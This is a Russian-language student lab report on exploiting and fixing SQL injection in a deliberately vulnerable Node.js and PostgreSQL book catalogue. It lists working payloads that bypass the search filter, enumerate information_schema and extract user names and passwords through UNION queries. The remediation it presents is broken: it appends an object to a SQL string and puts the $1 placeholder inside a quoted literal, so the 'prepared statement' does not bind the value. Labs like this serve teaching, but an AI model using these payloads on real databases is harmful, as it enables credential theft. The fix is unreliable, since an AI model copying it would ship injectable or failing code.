 # Лабораторная работа №2

Цель работы: Поиск и устранение SQL Injection.

## Задание 1

В папке lab2 находится nodejs уязвимое приложение. Необходимо развернуть его, найти SQL инъекцию и исправить. Модифицированное приложение загрузить в свой репозиторий GitHub.

Для выполнения лабораторной потребуется проделать следующие шаги:

1. Установить PostgreSQL сервер любой версии.
 
В качестве БД будем использовать docker-образ PostgreSQL. Запуск командой:

```bash
docker run --name postgres-lr -e POSTGRES_PASSWORD=passwddd -e POSTGRES_USER=postgres -e POSTGRES_DB=lib -d -p 5432:5432 postgres
```

2. Создать БД lib.

БД создается при запуске контейнера с помощью переменной окружения POSTGRES_DB=lib. 
 
3. Применить к ней скрипты из папки db (либо создать объекты и вставить данные в таблицы руками). Скрипты выполнять в порядке указанном в имени файла. Восстановить данные из файла data.sql.

Для входа в БД используется команда запуска шелла в контейнере, а затем, уже в контейнере, выполняется команда доступа к шеллу БД.

```bash
docker exec -it postgres-lr /bin/bash
psql -U postgres -d lib
```

Picture 3.1

Picture 3.2

Picture 3.3

4. Установить nodejs версии 14.

5. Перейти в папку lab2 и выполнить в ней команду:

```bash
npm install
```

Picture 5

6. Запустить сайт через Visual Studio Code или через команду:

```bash
npm start
```

Picture 6

7. Войти на сайт и увидеть список книг и авторов.
 
Picture 7
    
8. Обнаружить sql инъекцию.

Используем в качестве пейлоада одинарную кавычку и получаем ошибку и весь SQL запрос.

Picture 8

9. Написать отчёт с описанием найденной уязвимости и примерами её эксплуатации. В отчете приветси информацию об: обходе установленного фильтра, получении данных из другой таблицы, похищении пароля пользователя.

Получим текущую таблицу в обход SQL-запроса приложения. Используем пейлоад:

```sql
%' or 1 = 1 --
```

Picture 9.1

Получим схему БД для определения таблиц с помощью пейлоада:

```sql
%' union select null, table_schema, table_name from information_schema.tables --
```

Picture 9.2

Из вывода можно найти информацию от том, что есть таблица public.users. С помощью следующего запроса определим какие столбцы есть в БД и их тип:


```sql
%' union select null, column_name,data_type  from information_schema.columns  where table_name = 'users'; --
```

Picture 9.3

Посмотрим записи таблицы public.users с помощью запроса:

```sql
%' union select null, name, pass  from public.users; --
```

Picture 9.4
 
10. Исправить уязвимость. В отчёте привести пример того, что уязвимости больше не эксплуатируются.
 
Для исправления уязвимости используем prepared statements в запросе поиска по книге.

```javascript
if(bookname){
        sql+={
            text: `\rwhere b.name like '%$1%'`,
            values: [bookname]
        };
    }
```

Picture 10


P.S.
Помимо изученной SQLi обнаружена еще однин риск: хранение аутентификационных данных в коде программы.
Есть много способов получения аутентифкационных данных, одним из которых является PAM.